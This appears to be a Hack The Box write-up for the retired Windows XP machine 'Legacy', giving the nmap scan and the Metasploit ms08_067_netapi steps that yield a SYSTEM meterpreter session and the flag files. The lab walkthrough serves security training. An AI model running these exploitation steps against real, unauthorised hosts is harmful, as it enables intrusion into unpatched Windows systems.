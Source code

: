 ```yaml
---
layout: post
title: Hack The Box - Legacy
---
```

![](https://cdn-images-1.medium.com/max/800/1*5M6-ofIj4NRY49YkIQC38w.png)

Legacy is a retired machine that is easy in difficulty and is a Windows OS. I’ll be using a virtual machine and a copy of Parrot OS, which can be downloaded from [here](https://parrotlinux.org/).

### Enumeration

I’ve started to use a new command for initial enumeration with nmap. The command must be run with elevated privileges. Using this scan should ensure that it scans relatively quickly, checks for service versions, identifies OS of the system, scans all ports, outputs to a file called legacy.txt, and uses an aggressive scan timing. The output results of the scan below.

```shell
sudo nmap -sS -sV -A -p- -oN legacy.txt -T4 10.10.10.4
```

![](https://cdn-images-1.medium.com/max/800/1*pscUvNHVhCFpPIVJntKpgQ.png)

This scan shows us that there are 2 open ports and 1 closed port. The 2 open ports are ports 139 which is netbios, and 445 which is microsoft ds. It also shows us that there is a 94% chance that the operating system is Windows XP SP3. This gives us some information to search for., so lets start by searching for windows xp sp3 netbios exploit. Within the first couple of results is an article from rapid 7 with how to exploit the machine with metasploit. Perfect.

### Exploitation

Lets fire up metasploit with msfconsole, and when it is finished loading type _use exploit/windows/smb/ms08_067_netapi  
_We then need to see what targets are available so we type show targets, and it shows a very large amount of options. Since we can assume that the os is Windows XP SP3 lets choose that option as the target. So we use the command _set target 7_ then we need to set the options for the for rhosts and lhost with `set rhosts 10.10.10.4` and `set lhost <your ip>`. Once these options have been set use the command exploit to run the exploit.

![](https://cdn-images-1.medium.com/max/800/1*yEHrmaz-GeuwmX2W-blmqQ.png)

As you can see from the screenshot using this options gave us a meterpreter session, when running getuid the command returns NT System. We should then be able to locate the user.txt as well as the root.txt files in `C:\documents and settings\john\user.txt` and `C:\documents and settings\administrator\root.txt`. Once the file has been located, typing `type user.txt` and `type root.txt` will give you the flags.